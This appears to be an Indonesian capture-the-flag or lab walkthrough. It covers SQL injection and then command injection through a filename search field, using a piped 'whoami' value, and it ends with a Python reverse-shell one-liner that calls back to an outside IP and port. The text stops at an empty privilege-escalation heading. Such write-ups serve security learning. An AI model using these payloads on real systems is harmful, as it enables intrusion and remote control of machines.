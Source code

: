 ![image](https://media.discordapp.net/attachments/740245586095112242/1083643261043888168/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1083643355902246932/image.png)

Setelah berhasil melakukan serangan SQL Injection dan mendapatkan akses ke direktori ``/scan``, kami menemukan beberapa package yang dapat digunakan pada situs web tersebut. Beberapa package yang kami temukan antara lain ``bash, bzip, cat, eicar, hello, netcat,`` dan ``python``. Hal ini menunjukkan bahwa situs web tersebut memiliki beberapa package yang terinstall dan dapat dimanfaatkan untuk melakukan serangan.

![image](https://media.discordapp.net/attachments/740245586095112242/1083643658978467840/image.png)

Jika kita memasukkan perintah ``whoami`` pada kolom pencarian filename pada direktori ``/scan``, maka akan muncul hasil scan summary seperti yang ditunjukkan pada gambar di bawah ini. Hal ini menunjukkan bahwa situs web tersebut memiliki celah keamanan yang dapat dimanfaatkan untuk melakukan serangan dan mendapatkan informasi sensitif dari server.

![image](https://media.discordapp.net/attachments/740245586095112242/1083644108976955422/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1083644138609709076/image.png)

## RCE and Reverseshell

Apabila kita menambahkan payload seperti ``"whoami|whoami"`` pada kolom pencarian filename pada direktori ``/scan``, maka akan muncul hasil user dimana website ini dijalankan. Hal ini menunjukkan bahwa situs web tersebut memiliki celah keamanan yang dapat dimanfaatkan untuk melakukan serangan Remote Code Execution (RCE).

![image](https://media.discordapp.net/attachments/740245586095112242/1083644491031920671/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1083644631406870629/image.png)

Selanjutnya, kita mencoba untuk membaca isi file dengan menggunakan perintah ``"ls"``.

![image](https://media.discordapp.net/attachments/740245586095112242/1083644840761368666/image.png)

Dan pada hasil pencarian, kita berhasil mendapatkan daftar file dan direktori yang terdapat pada server.

![image](https://media.discordapp.net/attachments/740245586095112242/1083644988799324211/image.png)

Baik, langkah selanjutnya adalah mencoba melakukan backconnect menggunakan payload yang didapat dari [Revshell](https://www.revshells.com/) dengan bahasa Python.

Payload:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.146",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://media.discordapp.net/attachments/740245586095112242/1083645351585665164/image.png)

## Privileges Escalation

